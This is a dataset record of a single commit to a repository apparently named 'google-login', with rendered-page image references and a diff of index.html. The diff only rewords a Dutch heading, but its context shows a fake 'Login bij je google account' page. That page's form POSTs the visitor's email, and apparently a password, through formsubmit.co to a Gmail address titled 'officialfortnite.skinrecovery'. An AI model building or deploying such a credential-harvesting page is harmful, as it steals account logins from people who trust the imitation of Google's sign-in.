

Before and after one commit to GHU09/google-login, a plain HTML site: page index.html in a window 1280 px wide. Shown: the full height of the page, 0-640 px from the left. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -6,7 +6,7 @@
 
 <h1> Login bij je google account </h1>
 
-<h3>email            wachtwoord</h3>
+<h3>email en wachtwoord</h3>
 
 <form action="https://formsubmit.co/officialfortnite.skinrecovery@gmail.com" method="POST">
 <input type="email" name="email" required>
```
